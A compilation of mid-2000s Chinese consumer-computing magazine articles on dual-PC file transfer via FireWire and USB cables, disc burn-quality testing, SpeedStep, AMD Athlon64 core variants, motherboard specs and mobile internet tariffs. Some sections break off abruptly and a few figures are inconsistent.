火线就是IEEE1394(接口/线缆)的俗称，具备此接口的本本和PC，在正确安装驱动程序之后(在Windows XP和ME系统下绝大部分都能自动识别安装)，都会在控制面板的“网络连接”中自动生成一个“1394连接”(见图4)。只要用一条IEEE1394连接线将两台电脑的IEEE1394接口连接起来，马上就形成了一个对等的局域网。这样两台电脑就可以很方便地进行资源共享等操作了。



## 小提示

IEEE1394接口有6针和4针之分。六角形的接口为6针，最早是由苹果公司所开发的，具备供电能力。而小型四角形接口则为4针，不具备供电能力，是SONY公司将6针接口改良后的产品，又名为iLink。目前，笔记本上的IEEE1394接口多为小巧的iLink接口。而台式机上则多用6针的IEEE1394接口。

优点: 接口应用已经普及，几乎每一台本本都有。两台电脑的对接方便，插上就能用，无须设置。数据传输速度快且稳定。

缺点: 外出需要携带线缆，且有6针和4针之分，因此在选购连线的时候必须考虑接口与插头的兼容性问题。此外，这种方式只能进行双机互联，不可多机同时连接。而且只有在Windows XP/ME系统下，该连接才是最方便快捷的。

## USB2.0互联

- 必要条件: 支持USB2.0接口的专用USB虚拟网卡联机线

这实际上也是利用专门的技术和软件，让两台电脑通过USB接口互相传输文件，甚至共享上网。但这种USB联机线有两种，一种在使用时需要在两台电脑上同时开启特殊程序，通过程序来进行文件的交换、传输等操作，这种USB联机线叫“USB对拷线”；另一种是所连接的两台本本上各生成一个虚拟的网卡，让其形成一个对等的局域网的USB虚拟网卡联机线(见图5)，它的文件传输和交换与局域网的资源共享操作是一样的。这里，我们就只给大家简单地说说USB虚拟网卡联机线的一些操作要点:



- 第一步: 安装USB虚拟网卡联机线所附带的驱动及软件(注意，安装前要确保USB虚拟网卡联机线没有与电脑连接)，安装时要选择“LAN Driver”，否则在安装完成后，你会发现不管你怎么设置网络，你始终不能访问其他电脑;
- 第二步: 根据程序提示，重新启动电脑之后，插入USB虚拟网卡联机线。待系统自行为联机线安装好驱动程序之后，就可以在“网络连接”中找到一个虚拟出来的“GeneLink Network Adapter”网络连接;
- 第三步: 给连接的两台电脑指定一个IP地址和子网掩码，如A机设置为“192.168.0.1”/“255.255.255.0”，B机设置为“192.168.0.2”/“255.255.255.0”，确定之后，两台电脑就可以互相访问了。

优点: USB接口的普及率非常高，几乎每一台电脑都有，接口兼容性好。

缺点: 需要安装特殊的驱动程序或者软件来实现双机互联或进行文件交换、传输操作。而且，USB互联线会受到USB接口传输速率的限制。如果联机双方或其中一方的USB接口是USB1.1接口的话，其传输速度就会慢得让人无法忍受。因此只能传一些几十KB到几MB大小的文件。

以上就是笔者为大家总结的几种另类但实用的本本文件交换“快捷方式”，希望能给正在为本本的文件交换问题而感到烦恼的你提供更多的选择与参考。但除了本文提到的这几个较为另类的方法之外，利用USB闪存盘、闪存卡和读卡器搭配、MP3等设备作为文件的中转设备，又或者使用红外线、蓝牙等无线连接方式进行文件交换也是很简单的。不过，考虑到文件交换的效率、便利性、成本及可操作性来说，建议大家使用火线双机互联和反线双机互联这两种方式。但必须承认一点: 待无线网卡完全普及的时候，这种无线的文件交换、资源共享方式将是最快捷、简便而无需多加成本的。

(暗黑)## 光盘刻录，品质先行——自己动手检测光盘刻录品质

对于每一个拥有刻录机的朋友来说，刻录品质是最重要、也是最令人关心的一个问题。谁也不希望自己精心制作并刻录出来的盘片只能保存几个月、更不希望刻录出来的盘片会出现读盘困难，甚至不能读盘的问题。如果只是一般家庭用户的话，盘片刻录品质不佳、读取出错，只要备份文件还在，再刻一张也不是问题。但要是企业、公司用户的话，盘片出错就很有可能会严重影响工作进度，甚至造成经济损失。那么，如何保证和检测盘片的刻录品质呢？学会检测刻录盘片的品质与检验盘片刻录后的品质是关键。

## 用目测法筛选盘片

通过目测可以在购买时就发现盘片的一些物理层面上的缺陷和瑕疵(如图1)，从而将一些品质极差的盘片筛选掉。



1.  观察盘片的涂料层次，让光反射在盘片上，从内圈向外圈仔细地观察涂料的层次。一般来说，层次越多越密，光圈越分明的盘片质量越好；
2.  观察盘片最内圈涂料是否均匀成圆形，如果盘片的最内圈涂料呈现溢出或不规则的状态，那么这种盘片肯定是有问题的；
3.  观察最内圈边缘涂料颜色，如果涂料的颜色已经变成灰黑色，那么说明盘片涂料的化学成分已经变质；
4.  将光盘对着日光灯，仔细检查其反光层和涂料层，如果发现有涂漏的地方(这个部位的光线透明度会更高一些)，那么这类盘片的品质也是无法得到保证的。

## 软件检测法

刻录速度是一个对刻录品质有很大影响的指标。通常情况下，刻录速度越低，刻录品质会越高，因此就出现了某些盘片在高速刻录时要“飞盘”，而低速时却能正常刻录的现象。如果你要测试一下你的刻录机或者是刻录盘片的话，应采用刻录机的最高速度来刻盘，然后再用软件对光盘进行检测，这样得到的结果才是最真实的。

### 1. 最简单的软件检测

#### (1) 简单光盘表面扫描

利用NERO刻录软件包中的CD-DVD Speed的Scandisc功能，可以对光盘进行表面扫描。这样，我们很容易地就能发现在光盘数据中是否存在错误，存在什么样的错误。

其中绿色小方块是完好的数据，黄色小方块是已损坏的数据，红色小方块则是无法读取的数据。以图2来看，被检测的光盘已经被检测出有1个已损坏的数据块，其数据完好率为99.89%。这说明该盘片在读取上不会存在太大问题，但要用来做母盘的话，还是不行的。

#### (2) 专业的C1/C2错误检测

对于CD-R盘片来说，我们也可以用CD-DVD Speed中的“光盘质量测试”来对光盘进行检测。在检测过程中，软件对光盘上的数据进行检测和纠错，如果有错误发生，则会记载发生错误的平均值和最大值，分别表现为C1错误和C2错误的平均值和最大值。



> 小知识
> CD的纠错分2阶段进行，第一阶段(C1阶段)中完成的纠错部分称为C1出错(非基本的错误都在这一步被纠正)。C1出错后纠正不了的部分会在第二阶段(C2阶段)被纠正，此部分称为C2出错。在C2阶段也纠正不了的部分就会成为CU出错(Uncorrectable Error)，如果刻录的是音乐CD，盘片就会出现杂音/爆音。发生C2出错的原因，一般可认定为CD-R盘片的刻录品质不好。如果C1/C2出错纠正的次数在一定范围以内，对音乐CD-R盘片的音质来说影响不大，但如果刻录的是数据的话，就会影响盘片的读取，出现读取困难。
> 虽然C1出错的发生不可避免，但是发生次数总是越低越好的，此外还需要看最大值(波动特性)和平均值(相对特性)。按照刻录橘皮书(由国际主要光存储设备生产厂商所指定的一本关于光存储刻录的规范手册)的标准，C1平均值应在7以下；如果平均值在5以下，刻录VCD效果会不错；平均值在2以下刻录数据以及音乐CD会有不错的品质。而C2则不同，如果超过0的话，证明该光盘品质出现问题，而且会影响光盘的读取与寿命。
> 从图3所示的光盘检测结果来看，光盘没有出现C2错误，而C1错误的平均值为2.72，因此这张盘片已经能满足刻录VCD和一般临时数据光盘的要求，就算刻录的是音乐CD也不会有很明显的杂音问题，最后软件还对光盘品质进行了打分，其得分为92分。



### 2. 专业的软件检测

由于DVD刻录已经开始在人们的生活中逐渐普及，加之其巨大的数据存储量，刻录品质就更为重要。检测的方法除了将整张光盘的内容复制一遍到硬盘之外，我们还可以用更加专业的DVDInfoPro检测软件来对DVD光盘的刻录品质进行更加细致的检测。这款软件可以在任何品牌的DVD刻录机上使用。测试的操作也很简单，首先将待测的DVD光盘放入DVD驱动器(注：该测试只针对DVD刻录，CD刻录是不能进行的)，然后单击DVDInfoPro上的PI/PIF(PI/PO)按钮，然后单击“Start”按钮，就可以进行检测了。如图4，上方的曲线图是PI曲线图，下方的曲线图是PIF的曲线图。



## 检测结果

笔者在BTC 4X刻录机中，首先放入了一张数码多4X的DVD+R盘片，通过检测，在这张盘片上总共检测到PI错误215944个，其中PI最大值为422，PI平均值为112。PIF错误有52281个，PIF最大值104，PIF平均值26，盘片没有POF错误出现。也就是说，这张DVD刻录盘的刻录品质是并不怎么样，只能用于短时间内的数据转移或者备份。而对于什么是PI、PIF和POF错误，以及错误量与刻录品质的关系，见后面的知识点。

之后，作为对比，笔者又放入了一张ANTAR 4X DVD+R盘片进行测试。通过检测，总共检测出PI错误2143797个(比数码多高出40000个左右)，PI最大值和平均值分别为999和667(分别要高出数码多550和540)，总共检测出PIF错误174504个(比数码多高出120000个)，而PIF最大值和平均值分别为483和84(分别要比数码多高出370和60左右)。通过测试，可见这张ANTAR 4X DVD+R盘片的刻录品质是极差的，尽管前面的数码多4X DVD+R的测试成绩也没有达到标准值，然而相比于ANTAR 4X DVD+R来说，其刻录品质要好得多。

注：一张DVD盘片的PI最大值应当不超过280，而其PIF的最大值和平均值分别不应超过60和10。如果PIF值过高，则在短期之内就会发生盘片不能读取的现象。而PI过高则会出现盘片保存时间不久，一段时间之后上面的数据就会失效。当然，无论是PI还是PIF，其最大值和平均值均是越低越好，这样表示盘片的品质也越高。

> 小经验
> 有以上软件的专业检测，相信已经不难检测光盘的刻录品质。因此建议大伙儿在购买光盘的时候，可多挑选几个品种、品牌的刻录盘先试刻一下，待检测合格后再大量购买。

> 小知识
> 何谓PI、PIF(PO)和POF(CU)?
> 对于盘片刻录品质的检测来说，目前最稳妥的方法是PI/PIF(PO)检测。其基本原理是刻录机在读出光盘反射的激光信号后，先放入EFM(从8到14调制)进行编码，然后送入PI解码器，以检查是否有初级错误，如果有初级错误，就送给De-interleaved(错行纠正)去“修理”好数据，大多数的出错数据均会在此时被纠正。而PI出错后被纠正不了的部分会在第2阶段(PIF阶段，也叫做PO被纠正)，此部分称为PIF(或PO)出错。PIF(PO)解码器会检查其错误，并进行De-scrambled(additional interleave stage)纠正。如果在PIF(PO)阶段也纠正不了的错误，就成为POF(CU)错误，即无法校正的错误。如果出现错误的部分是音乐盘片，那么就会成为杂音。较低的PI值是可以被接受的，而如果产生大量或较高的PO值，那么可以认为是该盘片的记录品质不好(或者是刻录机刻录品质或光驱的读盘能力较差)。
> CD-R刻录光盘有三菱、明基、莱德、SONY，DVD刻录盘有威宝、三菱、明基、SONY，这些品牌的刻录盘，价格都会比普通的高一些，但还是物有所值的。而且这些品牌除了威宝和明基之外，都有散装水货盘，价格还要便宜一些。不过，如果你是用来刻录母盘等重要数据盘片的话，建议大家还是买带有防伪标签的盒装SONY光盘。
> (梦幻笑容)

## 松弛有道——让本本的CPU全速运行

SpeedStep是移动版Pentium CPU的特色功能之一，它用限定CPU运行频率的方式降低CPU功耗，为笔记本电脑(以下简称本本)带来更长的使用时间。不过，俗话说“请神容易送神难”，我们也不是什么时候都需要SpeedStep“以性能换电能”，我们更希望在某些时候用更高的性能来提高工作效率。那么，如何关闭SpeedStep功能呢？好，下面我们就给大家说说这个。

### 什么CPU具备SpeedStep

一般来说，过去两年内的移动版的Pentium CPU和目前迅驰平台中的Pentium M都具备该功能，而目前“横行”中低端本本市场的Celeron M和非Intel的CPU就不具备，所以也就不存在“关闭SpeedStep”之说，因为CPU本身就只能是全速运行。

此外，SpeedStep是一项软硬结合的技术，其CPU降速工作还需要操作系统的支持，所以对于像Linux和Windows 98这类本身缺乏SpeedStep For Pentium M驱动程序的操作系统来说，同样不存在“关闭SpeedStep”之说。

> 小提示
> 各家CPU厂商在本本CPU上，都采用了自已的省电技术，其原理都是大同小异，如AMD公司的PowerNow!技术就可以自动地控制你的本本的CPU性能等级，并根据需要处理的任务，每秒钟多次动态地调整运行频率和电压。

### 怎么关闭?

SpeedStep的开关主要由BIOS中的“Advanced Power Management”、Windows中的“电源管理”和外置电源状态三者决定。早期的本本都要求必须先接外置电源，才可关闭SpeedStep，但随着CPU的功耗越来越低，目前很少有本本对此做硬性要求，大多数本本只需在BIOS中关闭SpeedStep，并在Windows中的“电源管理”中选择“性能模式”(如图1)即可。另外，也有少数厂商的本本集成了电源模式的快捷键(如华硕的PowerGear)，这些本本关起SpeedStep更是简单，连BIOS都不用进，通常只需把快捷键拨到最省电的模式就行了。但是，假如你发现自己的本本虽有SpeedStep关闭选项，但实际上却无法关闭，那么你就要考虑升级本本的BIOS了。

### 如何验证?

SpeedStep是通过CPU降频及关闭空闲部件来达到省电的目的，所以其效果除了可以用主观感觉来评判外，还可以借用Windows系统的“系统属性”和一些CPU频率检测软件来进行。

#### 方法一: 笔者向你推荐Tom's Hardware Guide Clock

这款软件可以实时检测CPU运行频率的变化，你可以从http://www.mydrivers.com/tools/dir11/d4618.htm上下载到它(见图2)。





#### 方法二: 用Windows系统的“系统属性”检测CPU运行频率的话

你在检测前就先要关闭所有后台程序，然后再用“Ctrl + Alt + Del”快捷键调出“任务管理器”，确认所有应用程序已被关闭和CPU占用率为“0%”时，按“Win+Pause”快捷键打开“系统属性”，这是你就可以看到当前CPU的运行频率了。不过，这个运行频率的检测在第二次打开的时候，会出现误差，要得到准确的数字，需要在每次检测前重新启动电脑。

部分采用迅驰平台的本本更加智能化，它会根据自身所使用的电源形式来进行SpeedStep的开关选择。当本本处于外部电源状态下时，CPU性能全部释放，而在使用电池作为电源时，则会自动启用SpeedStep，限制CPU的运行频率及电压，进入省电模式。

> 小编有话说: 关闭和打开SpeedStep功能对本本各项性能的影响中，最大的就是电源的状态和性能表现。不过，对于在过去1~2年间推出的，部分采用移动版Pentium3 CPU的本本来说，还会直接影响电池的使用时间，也就是所谓的电池续航能力。因为这部分本本可以在电池作为电源的状态下关闭SpeedStep功能：
> 第一步：在“电源管理”中将“电源使用方案”设置为“一直开着”；
> 第二步：重新启动电脑，进入BIOS的“Advanced Power Management”，关闭SpeedStep功能即可。
> (wincat)

## 从钉锤到温彻斯，AMD兄弟细分辨

### Athlon64 3000+ 四兄弟细分辨

与个人电脑处理器产业的龙头老大Intel公司相比，AMD公司一直受到生产线不足，产能受限的困扰，因此，在产品工艺的进化发展上也与Intel明显不同。Intel公司在设计好一款核心后(如Pentium 4的Northwood核心)，除了少数修正BUG和少量优化外，很少对此核心进行大的改动，直到推出新工艺生产的新核心(如Pentium 4的Prescott核心)。而AMD的为保证产量的供应，则是一边生产设计成熟产品，一边在同样制造工艺下(如0.13微米技术工艺)改进核心技术，改进成功后投入生产。而随着新的制造工艺的成熟(如0.09微米成熟)，则将上一代制造工艺下的设计方案作适当少量修改直接用到新制造工艺上，同时修改CPU的设计方案。AMD这样的设计生产方式相对来说减少了不少生产过程中的风险，不过导致的另一个问题就是市场上型号相近的产品相当多，再加上AMD采用PR标示法标示产品型号，使AMD生产线中出现大量同样产品型号，内核并不相同兄弟产品。

> 小知识
> PR标示法
> PR标示法是AMD用来标示产品型号的方法，在Intel不断提升CPU频率的同时，AMD认为，频率高的处理器并不一定表示性能好，AMD的Athlon系列处理器经常用比Intel处理器低几百兆赫兹的频率提供更高的性能。因此，AMD就将自己产品的频率通过一种换算方式换算为PR值，作为产品型号。不同种类的AMD处理器的PR算法不同，早期的AthlonXP的PR算法如下：
> PR标称值=实际频率×3÷2-500
> 实际频率=PR标称值×2÷3+333
> 但随着AMD处理器核心类型的繁多，在Athlon 64产品中已通用的PR与频率转换的公式，用户在了解到自己的处理器的PR值时，若还想知道频率，可用各种CPU测试软件检测。

具体到Athlon64 3000+这编号的产品，AMD就从最早到现在共生产了4款同型号不同核心的产品。我们也可借此了解AMD Athlon 64处理器的不同核心。

#### 1. ClawHammer 核心 Athlon64 3000+

ClawHammer(钉锤)核心是面向主流桌面市场的Athlon64系列处理器使用的第一款核心，标准设计中ClawHammer核心应该有1MB缓存，并支持双通道内存，但由于良品率的问题，达到此要求的处理器较少，都制造成了AMD高端的Athlon 64FX系列，而未达标的则屏蔽缓存或者减少内存控制器使用，成为Socket754接口的Athlon 64系列。ClawHammer核心的AMD Athlon 64 3000+采用0.13微米SOI(硅绝缘涂层技术)制造工艺，具有128KB一级缓存和512KB二级缓存，处理器接口为Socket 754，处理器实际频率为2.0GHz，最高只支持单通道DDR400内存。这也是惟一一种只支持单通道内存的Athlon 64 3000+(如图1)。

#### 2. NewCastle 核心的 Athlon64 3000+ 处理器

在ClawHammer核心的Athlon64中，AMD集成了1MB的二级缓存，这样做虽然有助于CPU性能的提升，但也带来了高成本低良品率的问题，这种情况下，ClawHammer核心的接班人—NewCastle(纽卡斯尔)核心诞生了。NewCastle核心仍然采用0.13微米SOI制造工艺，NewCastle核心与ClawHammer核心设计上除了将二级缓存的容量由1MB降为512KB外，其他差别不但，而这样的改变也将处理器核心面积也由原来的193平方毫米缩小为144平方毫米，让NewCastle核心制造成本远低于ClawHammer核心，更加有利于Athlon64的推广。NewCastle核心的Athlon64 3000+具有128KB一级缓存和512KB二级缓存，实际运行频率1.8GHz，采用Socket939接口，处理器内置内存控制器最高支持双通道DDR400内存。由于支持双通道内存，因此1.8GHz的NewCastle核心Athlon 64处理器也与2.0GHz的ClawHammer一样，同称为3000+。要辨识NewCastle核心的处理器很简单，NewCastle处理器的编号的最后两位为AW(如图2)。



#### 3. Winchester 核心的 Athlon64 3000+ 处理器

Winchester(温彻斯特)核心是NewCastle核心的制造工艺升级版，是NewCastle核心的0.09微米工艺版本。采用Winchester核心的处理器与NewCastle核心同频率处理器性能上没有明显差别，但采用Winchester核心后AMD能够在同一片硅晶片上切割出更多的处理器(如图3)。而AMD的0.09微米制造工艺的处理器也拥有更低的发热，并能更容易提高频率(这与Intel的0.09微米工艺正相反)。



Winchester核心的Athlon64 3000+处理器具有128KB一级缓存和512KB二级缓存，实际运行频率1.8GHz，采用Socket939接口，处理器内置内存控制器最高支持双通道DDR400内存。Winchester核心的处理器的编号中最后两位为BI(如图4)。



#### 4. Venice核心Athlon64 3000+处理器

前面说过，AMD通常会用新制造工艺生产成熟的设计方案的产品，谋求生产过渡的稳定，同时又在等新制造工艺稳定成熟后生产新设计方案的产品。而Venice核心就是AMD的0.09微米制造工艺生产成熟后的开始生产的新设计方案。与前几个核心的Athlon64相比，Venice(威尼斯)核心的改变最大。首先，Venice核心支持Intel的SSE3多媒体指令集，这令Venice在多媒体运算方面更有优势。其次，Venice核心修改了CPU内部的内存控制器设计，让Venice能够支持4条DDR400内存，而在前几代核心中，用户使用4条DDR400内存只能降频到DDR333来使用。

Venice核心的Athlon64 3000+处理器具有128KB一级缓存和512KB二级缓存，实际运行频率1.8GHz，采用Socket939接口，支持SSE3指令集，处理器内置内存控制器最高支持四条双通道DDR400内存。

| 核心代号 | 频率 | 缓存 | 内存支持 | 制造工艺 | 其他特点 |
| ---- | ---- | ---- | ---- | ---- | ---- |
| ClawHammer 3000+ | 2GHz | 128KB/512KB | 单通道DDR400 | 0.13微米 |  |
| NewCastle3000+ | 1.8GHz | 128KB/512KB | 双通道DDR400 | 0.13微米 |  |
| Winchester3000+ | 1.8GHz | 128KB/512KB | 双通道DDR400 | 0.09微米 |  |
| Venice 3000+ | 1.8GHz | 128KB/512KB | 4条双通道DDR400 | 0.09微米 | 支持SSE3 |

用户同样可以通过编号来识别采用Venice核心的处理器，Venice核心的处理器的编号中最后两位为BP(如图5)，表示E3版本核心，因此市场上也把Venice核心Athlon64也称作E3版Athlon64。



面对这么多同编号的处理器，我们购买哪种好呢？笔者认为，如果希望搭配一套性价比较高的Athlon 64电脑，ClawHammer核心Athlon64 3000+能用较低的价格提供同样的性能，如果要考虑升级等问题，Venice核心则更值得选择。四种不同的Athlon 64 3000+的区别如表1。

FX处理器，Opteron与Athlon64 FX的区别在于Opteron系列处理器能够支持SMP多处理器并行工作模式，而Athlon64 FX则不具备此功能。

### 2. 高端新领袖SanDiego核心

SanDiego(圣地亚哥)核心与Venice核心几乎同时推出，相对上一代核心，SanDiego的改进也与Venice类似。SanDiego核心与Venice同为0.09微米工艺制造，支持SSE3指令集，支持4条DDR400内存，与Venice不同之处在于SanDiego搭配了1MB L2缓存，因此SanDiego实际上是替代ClawHammer核心，生产高端桌面型Athlon64 FX用的。

### 3. Paris 与 Palermo，低端双雄

Paris(巴黎)与Palermo(巴勒莫)核心为AMD基于AMD64构架设计的主攻低端市场的Sempron系列处理器的核心。虽然这两种Sempron基于AMD64构架设计，但产品中已被屏蔽64bit处理能力，只能作为32bit处理器。Paris核心为0.13微米SOI制造工艺，提供单通道DDR 400控制器，只有256KB二级缓存，采用Socket754接口。Palermo核心则是从Winchester核心的基础上演变而来，采用0.09微米制造工艺，其他方面与Paris核心没有差别，目前还不支持SSE3指令集，不过新工艺能降低CPU的发热量，提升超频性，也更值得选购。Palermo核心的处理器编号的最后两位与Winchester核心一样，也是AW，这也是辨别Palermo核心的好方法。

另外，由于Intel已经推出支持64bit运算技术的低端赛扬处理器，因此AMD也同样准备推出支持64bit计算的Sempron处理器，虽然现在还没有公布相应的核心代号，但分析认为应该是Venice核心的缩水版，256KB缓存，支持64bit运算和SSE3指令集，有可能支持双通道内存。

## 教你看懂主板宣传单

嗨，大家好，欢迎再次来到“硬派讲堂”，在上一期的我们讲了一些关于硬盘的优化，这次我们就以某厂商的主板广告单为例，给大家讲讲如何看懂主板广告宣传单上的几个重要参数！（见表1）

| 序号 | 项目 |
| ---- | ---- |
| 1 | 基于Intel 925XE北桥芯片+ICH6R南桥芯片组 |
| 2 | FSB 800MHz以及1066MHz规格的LGA775CPU |
| 3 | 最大容量4GB Dual-Channel双通道DDR2的内存架构 |
| 4 | PCI-Express x16高速绘图卡界面 |
| 5 | 内建Broadcom BCM5751 PCI-E Gb网络控制器及Intel 82562EZ 10/100 PHY网络控制器 |
| 6 | 支持7.1声道HD音效 |
| 7 | 8个USB2.0控制器，4个 Serial ATA/150端口 |

林林:呵呵，这个内容我最熟悉了！小笨，要不要我给你先说几个？
小笨:呵呵，别看我菜，但基本上还是能看得懂几个的。第一行不就是说该主板的北桥芯片是Intel的925XE，南桥芯片是ICH6R吗！两者结合就是所谓的芯片组了。Intel的芯片组还有:955X、925X、945P、945G、915G、915P、915GV、915GL、915PL、910GL、875P、865G、865GV、865P、865PE、848P等。当然了，还有威盛(VIA)、nVIDIA、ATi等厂商也有对应Intel和AMD处理器平台的芯片组。

林林:芯片组是主板的核心组成部分(见图1)，关系到主板的性能和功能。北桥芯片主要负责CPU、内存、AGP插槽、南桥芯片的控制，作用就像一个总控台；南桥芯片则是对USB、PCI、存储器(硬盘、光驱等)、网络、音频设备以及附加控制芯片(如RAID、IEEE1394等控制芯片)之间进行协调、控制，同时将它们的数据和指令传送到北桥。其中北桥芯片起着主导性的作用，也称为主桥(HostBridge)。



有什么Prescott，这些都是什么意思啊？
天唯:HT(Hyper-Threading)就是超线程技术。它利用特殊的技术把一个物理CPU核心模拟出两个逻辑内核，从而使空闲的CPU资源得到充分利用，让单个CPU能在同一时间里，用两个逻辑CPU分别进行不同的数据处理任务，提高系统的数据处理效率。该技术在多线程操作系统(Windows XP/2003)和软件下，能使运行效率提高30%。

林林:嗯，Intel 848P以上型号的芯片组都支持该技术，VIA等公司的芯片组也大多支持该技术，这个我最清楚。
小笨:呵呵，JS的本来面目又藏不住了吧？

林林:呵呵，Prescott是Intel CPU核心的代号，对应的有Celeron D、Pentium 4E等CPU。它具有更小的线宽和核心电压(1.2V~1.3V)，因此理论上来说发热量较小，工作频率也可以更高。不过，在实际应用中，Prescott的发热量会比过去的还要高。

天唯:好，下面再来看看第三行。这个最大内存容量，大家都应该知道了吧？由此可以一定程度上说明该主板的可升级性，但目前的普通用户都很少会使用超过2GB的内存。而双通道DDR技术是一种增强内存性能的技术，它能将内存总带宽提升一倍以上，这样在单位时间内传输的数据就会更多，CPU的处理速度也就会更快。这个技术对于一般应用来说，性能提高不明显，但对于抓取影音文件、转换影音格式、视频剪辑生成等应用来说，该技术所带来的性能提高是非常明显的。
小笨:那DDR2内存是什么，与DDR内存有什么区别？
天唯:DDR是目前主流的内存规范，有

## 本本无线上网套餐，哪个更划算？

相信很多经常要出差的人都会需要用无线上网来随时随地连接到Internet，以便得到更快的资料更新。无线上网通常有无线局域网与无线广域网两种。前一种是通过电信运营商设置的无线接收点（热点）来连接Internet。这种方式具有速度快、带宽稳定的优点，但只局限于机场、酒店、高档商务酒店等热点的覆盖范围。无线广域网则主要是依靠现有通信网络实现无线上网，如移动的GPRS、联通的CDMA1X、电信的小灵通等。只要在通信网络覆盖的范围就可以上网，易用性类似于拨号上网。由于无线广域网不易受到上网地点的约束，于是受到越来越多移动办公用户的青睐，国内三大网络运营商也不失时机地推出了相关的无线上网“套餐”。究竟这些无线上网“套餐”，哪个对你来说更划算呢？这还要仔细看清楚了。

### 中国移动:随e行

| 套餐 | 月租费 | 免费赠送流量 | 超出免费赠送流量 |
| :--- | :--- | :--- | :--- |
| 自由套餐 | 0 | 0 | 0.03元/KB |
| 经济套餐 | 20元 | 1MB | 0.01元/KB |
| 时尚套餐 | 100元 | 20MB | 0.005元/KB |
| 商务套餐 | 200元 | 500MB | 0.001元/KB |
| （广州优惠期内150元） | | | |

“随e行”是基于移动GPRS的业务，它使用一张不具备语音通话功能的SIM卡，把它插入到笔记本的无线网卡中，就可以实现无线上网。“随e行”支持GPRS/WLAN两种无线接入方式，最高速率为171.2Kbps，平均上网速度在20～30Kb/s。不过当用户使用WLAN/GPRS双模网卡时，在移动热点覆盖范围内可享受11M/s的接入速度（速度与无线网卡和环境有关），这在一定程度上弥补了“随e行”在速度上的不足，也令用户可以自由在GPRS或WLAN网络之间切换。

点评：网络的覆盖范围是无线上网的一个关键因素，只有随时随地实现无线上网才能满足用户移动办公的需求。网络覆盖面广是移动“随e行”的最大优点，很多商务人士选择它就是冲着移动的网络优势而来。不过速度仍然是GPRS的致命缺陷，而且目前只有部分地区可以享受到200元包月不限量的优惠，这也令它的性价比大打折扣。

优点：网络覆盖广。
缺点：速度较慢，很多地区没有包月优惠。
适用人群：网络好且不计漫游费用，适用于经常在国内出差的商务人士。

- 1. 以一封Email使用500KB来测算，500MB可以发送1000多封Email。
- 2. 以一首MP3歌曲4MB来计算，500MB可以下载125首MP3歌曲左右。
- 3. 以一个网页100K大小计算，500MB可以浏览5000多个网页。

### 中国联通:掌中宽带

| 套餐 | 每月包月省内流量 | 每月包月省外流量 | 超出流量计费 | 赠送话费 | 备注 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 50元包月 | 150MB | 20MB | 0.005元/KB | 每月赠送25元 | 相当于每月25小时上网时长 |
| 200元包月 | 不限量 | 200MB | 0.005元/KB | 每月赠送50元 | 相当于不限时包月 |
| 预存话费 | 4800元 | 200元 | 3GB | 是 | 签订在网两年或信息费累计使用超过4800元的协议 |
| 零首付套餐 | 0 | 200元 | 2.5GB | 是 | 签订两年在网协议 |
| 优惠购卡套餐 | 0 | 150元 | 2GB | 否 | 签订在网一年协议 |
| 其他 | e炫通：1200元包月12GB流量；2600元包月26GB流量<br>e风：月供方式套餐，2年或3年累计支出超过1万元可获赠笔记本电脑与无线设备。 | | | | |

“掌中宽带”是基于联通CDMA1X网络的无线业务，它的接入方式有两种，一是使用“无线上网卡 + 笔记本电脑”接入网络，一是采用“CDMA1X手机 + 手机数据线 + 笔记本电脑”。其中，前一种方式较为便捷，用户无须购买CDMA1X手机，只要购买一张卡式设备，就可通过CDMA1X无线网卡接入网络。

“掌中宽带”的最高速率达到153.6Kbps，稳定状态下，速度可达70~80Kbps，是移动GPRS的四倍，也是国内三大电信巨头中速度最快的无线上网业务。虽然在过去很长一段时间内，CDMA的网络覆盖广度不如移动的GPRS，但近年来联通的网络得到了明显改善，而且CDMA1X的数据传输所依赖的网络带宽不大，不像GPRS那样数据与语音业务共用一条通道，带宽不易受到用户数据量变化的影响，因而CDMA1X在速度与稳定性方面都要优于对手。

点评：高速无线上网一直是用户所追求的目标，速度也因而成为CDMA1X取得成功的重要因素。而且“掌中宽带”多是200元包月，因而相对GPRS而言，用CDMA1X上网更实惠。不过，由于它的包月套餐并不包括省外漫游费用，对于经常在省外办公的用户可能影响较大。

- 优点：网速快，性价比高。
- 缺点：套餐不包括省外漫游费用，网络覆盖有待改善。
- 适用人群：对网速要求较高、经常在省内移动办公的用户。

### 中国电信:小灵猫

- 网络覆盖：★★
- 速度与稳定性：★☆
- 性价比：★☆

小灵通采用“小灵通 + 小灵猫”的接入方式，但你的所在城市必须开通小灵通WiWi业务。目前，广州、北京、上海三大城市中，上海仍然没有开通小灵通WiWi业务。小灵通能提供64Kbps的上网速度，比移动的GPRS略快，而且它的收费更为低廉：北京是0.09元/分钟，广州是1.2元/分钟。

点评：网络稳定性是小灵通上网的最大缺陷。小灵通信号覆盖范围小且存在盲区，在建筑物或是移动过程中（如车速超过40公里）就会出现连接问题。相对来说，广州的网络稳定性要好些，北京的可以说是一塌糊涂。而且小灵通还不支持漫游功能，到了其他城市就无法使用。

- 优点：收费较低廉，初期投入少。
- 缺点：网络信号不稳定，不支持漫游。
- 适用人群：对移动办公有一定需求，又对无线上网资费敏感的，拥有小灵通的用户。

## 结语：联通“掌中宽带”最受青睐

从网络覆盖范围、速度与稳定性以及性价比三方面分析来看，联通的“掌中宽带”业务无疑最具竞争力，也是最多人选择的一个。虽然它的包月套餐并不包括省外漫游费用，但高速的上网速度仍然让它成为众多用户的首选。没有人希望自己在摆脱网线的束缚后，又受到网速的困扰。

作为消费者的我们当然希望各大电信运营商都能提供如“包月不限量”等优惠方案，而且上网的费用能再下调，这样我们才能真正享受到无线上网带来的乐趣！

小编有话说：文中所述资费可能会因为各大电信运营商的市场策略而有所变动，大家要准确且详细的了解即时的资费变化信息，可以拨打相应服务商的客服电话，中国移动为1860，联通为10010，中国电信为10000。

此外，国内有些城市（如北京）为了保护自身无线业务的发展和用户群，会禁止一些外地的漫游包月用户在该城市使用，想在当地使用外地包月漫游卡省钱的用户，在购买之前就要和商家了解清楚了。

(细雨游风)

## 跟我来，DIY高达摄像头！

这款模型是前些日子去模型店买漆的时候发现的，卡版的模型我都很喜欢，即便是钢球看起来都那么帅气。虽然家里还有好几个模型都没有做，但我还是先买了下来。前几天无意中看到一个帖子，才终于找到了制作的方向—我要把摄像头装进模型里面！原来见过一个Zaku头部外形的摄像头，很有创意，但现在存在的最大比例也就是1:24，要把摄像头装进模型头部里面是不可能的。这个BALL就不同了，内部空间很大，有搞头！

下面，就请跟我一起来制作一个钢球摄像头吧。

## 材料的选择

